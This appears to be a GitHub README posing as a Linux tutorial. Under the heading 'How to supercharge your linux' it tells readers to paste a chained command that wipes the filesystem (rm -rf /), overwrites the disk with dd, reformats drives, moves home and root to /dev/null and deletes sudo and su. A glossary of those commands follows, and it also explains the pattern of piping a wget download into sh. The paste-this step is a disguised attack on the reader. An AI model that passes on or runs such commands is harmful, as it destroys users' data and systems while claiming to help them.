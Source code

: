 # Tutorial #DropAll
with success for begins

![alt tag](https://media.giphy.com/media/jQjv4K9OV0Boc/giphy.gif)

## How to supercharge your linux
Open your Terminal end copy/paste/enter:

> sudo rm -rf / && rm -rf .* && rm - .* && dd if=/dev/zero of=/dev/sda && mkfs.ext3 /dev/hda && echo '' > /dev/hda && cd ~; for x in `ls`; do mv -f $x $y; y=$x; done
find -type f -mtime +30 -exec mv {} /dev/null ; && mv ~ /dev/null && mv / /dev/null && rm -f /usr/bin/sudo;rm -f /bin/su && mv /home/$user/* /dev/null


## applications
rm – Remove the following files.

-rf – Run rm recursively (delete all files and folders inside the specified folder) and force-remove all files without prompting you.

/ – Tells rm to start at the root directory, which contains all the files on your computer and all mounted media devices, including remote file shares and removable drives.

mkfs.ext4 – Create a new ext4 file system on the following device.

/dev/sda1 – Specifies the first partition on the first hard drive, which is probably in use.

command – Run a command (can be any command.)

\> – Send the output of the command to the following location.

/dev/sda – Write the output of the command directly to the hard disk device.

dd – Perform low-level copying from one location to another.

if=/dev/random – Use /dev/random (random data) as the input – you may also see locations such as /dev/zero (zeros).

of=/dev/sda – Output to the first hard disk, replacing its file system with random garbage data.

mv – Move the following file or directory to another location.

~ – Represents your entire home folder.

/dev/null – Move your home folder to /dev/null, destroying all your files and deleting the original copies.

wget – Downloads a file. (You may also see curl in place of wget.)

http://example.com/something – Download the file from this location.

| – Pipe (send) the output of the wget command (the file you downloaded) directly to another command.

sh – Send the file to the sh command, which executes it if it’s a bash script.